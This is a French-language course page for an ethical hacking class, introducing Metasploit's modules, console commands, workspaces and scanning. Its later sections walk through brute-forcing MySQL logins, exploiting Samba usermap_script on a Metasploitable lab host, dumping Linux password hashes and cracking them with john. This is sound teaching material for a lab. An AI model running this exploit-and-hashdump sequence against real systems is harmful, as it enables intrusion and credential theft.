










# Introduction à Metasploit  

Metasploit est une architecture bâtie pour faciliter l'exploitation de failles dans les systèmes informatiques.

Un des outils les plus utiles pour un pirate éthique.

Dans Kali, pour démarrer Metasploit, faire la commande suivante :

`msfconsole`

## Architecture de Metasploit

Dans Kali, les packages de Metasploit sont dans le dossier suivant :

`/usr/share/metasploit-framework`

Un dossier en particulier est important, celui des modules :

`/usr/share/metasploit-framework/modules`

Ce dossier contient tous les outils qui peuvent être utilisés pour découvrir des failles, de les exploiter et autres tâches connexes.

Sous modules, il y a ces dossiers :

- Exploits - Pour exploiter les failles d'un système.
- Auxiliary - Outils comme des balayeurs de ports, sniffers et autres
- Payloads - Code qui peut être exécuté sur la machine de la victime
- Encoders - Outils qui transforment les payloads pour qu'ils arrivent à destination correctement
- Nops - Pour garder un poids du payload consistant

## Commandes de la console

`exit`

Pour sortir de la console.

`help`

Donne la liste des commandes.

`info`

Donne de l'information sur un module spécifique.

`search`

Permet de rechercher à travers tous les modules disponibles.

Voici quelques mots clés pour aider à chercher :

- name : cherche dans le nom du module
- platform : cherche un module qui agit sur la plateforme
- type : quel type de module (exploit, payload, etc.)

`sessions`

Interagit avec les différentes sessions.

`set`

Pour configurer les options d'un module.

`unset`

Annule une configuration d'options.

`setg`

Pour configurer globalement les options de modules.

`show`

Affiche les modules.

`show options`

Affiche les options du module en cours.

`show advanced`

Affiche les options avancées du module en cours.

`use`

Indique quel module à utiliser.

## Utilisation d'une base de données dans Metasploit

Pour aider dans l'utilisation de la plateforme, une base de données Postgresql est à votre disposition pour conserver l'information de votre reconnaissance active.

Pour démarrer la BD PostGreSQL : [Procédure](../labo/kali_demarrer_bd_postgresql.md)

Lors de la première utilisation, il faut initialiser la BD avant d'utiliser workspace, une fois dans la console :

`msfdb init`

## Espaces de travail

Dans la console, vous pouvez voir vos espaces de travail avec la commande :

`workspace`

L'outil est fait pour garder séparé les reconnaissances actives d'un client à l'autre.

Pour créer un nouvel espace de travail :

`workspace -a cegep`

Pour le supprimer :

`workspace -d cegep`

Pour le sélectionner :

`workspace cegep`

Une fois un espace de travail sélectionné, tous les résultats des balayages seront sauvegardés dans l'espace de travail.

## Utiliser nmap pour le balayage

Une commande dans Metasploit permet d'utiliser nmap pour alimenter l'espace de travail :

`db_nmap -A 192.168.40.7`

Vous pouvez voir les résultats dans les contenants de l'espace de travail :

`hosts`

Pour limiter les colonnes de hosts :

`hosts -c address,os_flavor`

Pour faire une recherche d'un actif en particulier :

`hosts -S Linux`

## Utiliser le module de balayage de Metasploit

`use auxiliary/scanner/portscan/tcp`

`show options`

Une des options du module est RHOSTS. Utilisons la commande hosts pour l'alimenter :

`hosts -R`

`run`

## Commande services

Pour voir les services découverts :

`services`

Pour voir un service en particulier :

`services -S http`

Pour une recherche par numéro de port :

`services -p 445`

## Informations de connexion

Utiliser l'outil de découverte de mots de passe MySQL :

`use auxiliary/scanner/mysql/mysql_login`

`show options`

`hosts -R`

`run`

Les informations se retrouvent dans le contenant creds :

`creds`

## Les trésors (_loot_)

Metasploit conserve aussi tous les _loot_ qui sont découverts par ses modules.

Essayons d'aller chercher les fichiers de mots de passe de Metasploitable :

`use exploit/multi/samba/usermap_script`

`show options`

`hosts -R`

`exploit`

`use post/linux/gather/hashdump`

`show options`

`set SESSION 1`

`run`

`loot`

Après l'extraction des _loot_, il est possible de les déchiffrer avec l'outil `john` :  

`john --wordlist=/usr/share/john/password.lst --rules /root/.msf4/loot/20200605161359_default_192.168.40.7_linux.hashdump_159137603`

!!! important  
    Prenez quelques minutes pour faire votre [cartographie](../outils/cartographie.md) de la leçon d'aujourd'hui!   

## Testez vos connaissances

[Petit quiz sur Metasploit](https://forms.office.com/r/Qkan3UqXan)  
